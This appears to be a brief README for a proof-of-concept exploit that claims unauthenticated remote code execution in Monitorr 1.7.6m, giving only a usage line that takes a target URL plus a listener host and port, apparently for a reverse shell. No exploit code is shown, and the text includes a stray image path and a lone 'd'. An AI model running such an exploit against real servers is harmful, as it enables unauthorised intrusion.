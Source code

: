 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``python exploit.py https://domain.com LHOST PORT``

``d``
